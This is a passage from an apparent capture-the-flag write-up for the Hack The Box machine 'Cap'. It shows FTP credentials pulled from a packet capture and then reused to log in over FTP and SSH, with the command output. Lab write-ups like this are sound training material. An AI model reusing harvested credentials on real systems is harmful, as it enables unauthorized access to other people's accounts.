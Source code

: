 Digging through the first pcap file `0.pcap` reveals credentials for a user nathan in a plain text FTP session:

![FTP Credentials in PCAP](../../../assets/2021-10-07-hack-the-box-cap/ftp-creds-from-pcap-file.png)

Using the username `nathan` and password `Buck3tH4TF0RM3!` gives access to the FTP server and contains the `user.txt` file:

```sh
$ ftp 10.10.10.245

Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:nickvd): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Aug 23 18:56 user.txt
226 Directory send OK.
```

The same username and password also gives access to login via SSH:

```sh
 downloads ssh nathan@10.10.10.245
nathan@10.10.10.245's password:

Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 23 21:10:32 UTC 2021

  System load:  0.0               Processes:             222
  Usage of /:   36.6% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There is 1 zombie process.

 * Super-optimized for small spaces - read how we shrank the memory
```